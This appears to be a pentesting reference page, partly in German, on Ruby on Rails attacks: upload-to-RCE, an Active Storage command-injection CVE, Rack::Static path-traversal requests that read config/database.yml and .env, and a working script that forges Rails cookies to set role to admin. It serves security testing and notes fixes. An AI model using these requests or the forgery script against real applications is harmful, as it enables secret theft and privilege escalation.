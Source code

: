 # Ruby-Tricks

{{#include ../../banners/hacktricks-training.md}}

## File upload to RCE

As explained in [this article](https://www.offsec.com/blog/cve-2024-46986/), uploading a `.rb` file into sensitive directories such as `config/initializers/` can lead to remote code execution (RCE) in Ruby on Rails applications.

Tipps:
- Andere Boot-/eager-load-Orte, die beim App-Start ausgeführt werden, sind ebenfalls riskant, wenn sie writeable sind (z. B. `config/initializers/` ist das klassische). Wenn du einen beliebigen Datei-Upload findest, der irgendwo unter `config/` landet und später evaluiert/required wird, kannst du RCE beim Boot erhalten.
- Suche nach dev/staging-Builds, die vom Benutzer kontrollierte Dateien in das Container-Image kopieren, in dem Rails sie beim Boot lädt.

## Active Storage image transformation → command execution (CVE-2025-24293)

Wenn eine Anwendung Active Storage mit `image_processing` + `mini_magick` verwendet und untrusted Parameter an Bildtransformationsmethoden übergibt, könnten Rails-Versionen vor 7.1.5.2 / 7.2.2.2 / 8.0.2.1 Command Injection ermöglichen, weil einige Transformationsmethoden fälschlicherweise standardmäßig erlaubt waren.

- A vulnerable pattern looks like:
```erb
<%= image_tag blob.variant(params[:t] => params[:v]) %>
```
where `params[:t]` and/or `params[:v]` are attacker-controlled.

- What to try during testing
- Identify any endpoints that accept variant/processing options, transformation names, or arbitrary ImageMagick arguments.
- Fuzz `params[:t]` and `params[:v]` for suspicious errors or execution side-effects. If you can influence the method name or pass raw arguments that reach MiniMagick, you may get code exec on the image processor host.
- If you only have read-access to generated variants, attempt blind exfiltration via crafted ImageMagick operations.

- Remediation/detections
- If you see Rails < 7.1.5.2 / 7.2.2.2 / 8.0.2.1 with Active Storage + `image_processing` + `mini_magick` and user-controlled transformations, consider it exploitable. Recommend upgrading and enforcing strict allowlists for methods/params and a hardened ImageMagick policy.

## Rack::Static LFI / path traversal (CVE-2025-27610)

If the target stack uses Rack middleware directly or via frameworks, versions of `rack` prior to 2.2.13, 3.0.14, and 3.1.12 allow Local File Inclusion via `Rack::Static` when `:root` is unset/misconfigured. Encoded traversal in `PATH_INFO` can expose files under the process working directory or an unexpected root.

- Hunt for apps that mount `Rack::Static` in `config.ru` or middleware stacks. Try encoded traversals against static paths, for example:
```text
GET /assets/%2e%2e/%2e%2e/config/database.yml
GET /favicon.ico/..%2f..%2f.env
```
Adjust the prefix to match configured `urls:`. If the app responds with file contents, you likely have LFI to anything under the resolved `:root`.

- Mitigation: upgrade Rack; ensure `:root` only points to a directory of public files and is explicitly set.

## Fälschen/Entschlüsseln von Rails-Cookies, wenn `secret_key_base` is leaked

Rails encrypts and signs cookies using keys derived from `secret_key_base`. If that value leaks (e.g., in a repo, logs, or misconfigured credentials), you can usually decrypt, modify, and re-encrypt cookies. This often leads to authz bypass if the app stores roles, user IDs, or feature flags in cookies.

Minimales Ruby, um moderne Cookies zu entschlüsseln und neu zu verschlüsseln (AES-256-GCM, Standard in aktuellen Rails):
```ruby
require 'cgi'
require 'json'
require 'active_support'
require 'active_support/message_encryptor'
require 'active_support/key_generator'

secret_key_base = ENV.fetch('SECRET_KEY_BASE_LEAKED')
raw_cookie = CGI.unescape(ARGV[0])

salt   = 'authenticated encrypted cookie'
cipher = 'aes-256-gcm'
key_len = ActiveSupport::MessageEncryptor.key_len(cipher)
secret  = ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000).generate_key(salt, key_len)
enc     = ActiveSupport::MessageEncryptor.new(secret, cipher: cipher, serializer: JSON)

plain = enc.decrypt_and_verify(raw_cookie)
puts "Decrypted: #{plain.inspect}"

# Modify and re-encrypt (example: escalate role)
plain['role'] = 'admin' if plain.is_a?(Hash)
forged = enc.encrypt_and_sign(plain)
puts "Forged cookie: #{CGI.escape(forged)}"
```
Hinweise:
- Ältere Apps können AES-256-CBC und Salts `encrypted cookie` / `signed encrypted cookie`, oder JSON/Marshal-Serializer verwenden. Passe Salts, cipher und serializer entsprechend an.
- Bei Kompromittierung oder während einer Bewertung `secret_key_base` rotieren, um alle vorhandenen Cookies ungültig zu machen.

## Siehe auch (Ruby/Rails-specific vulns)

- Ruby deserialization and class pollution:
{{#ref}}
../../pentesting-web/deserialization/README.md
{{#endref}}
{{#ref}}
../../pentesting-web/deserialization/ruby-class-pollution.md
{{#endref}}
{{#ref}}
../../pentesting-web/deserialization/ruby-_json-pollution.md
{{#endref}}
- Template injection in Ruby engines (ERB/Haml/Slim, etc.):
{{#ref}}
../../pentesting-web/ssti-server-side-template-injection/README.md
{{#endref}}



## Referenzen

- Rails Sicherheitsankündigung: CVE-2025-24293 Active Storage unsafe transformation methods (behoben in 7.1.5.2 / 7.2.2.2 / 8.0.2.1). https://discuss.rubyonrails.org/t/cve-2025-24293-active-storage-allowed-transformation-methods-potentially-unsafe/89670
- GitHub Advisory: Rack::Static Local File Inclusion (CVE-2025-27610). https://github.com/advisories/GHSA-7wqh-767x-r66v
{{#include ../../banners/hacktricks-training.md}}
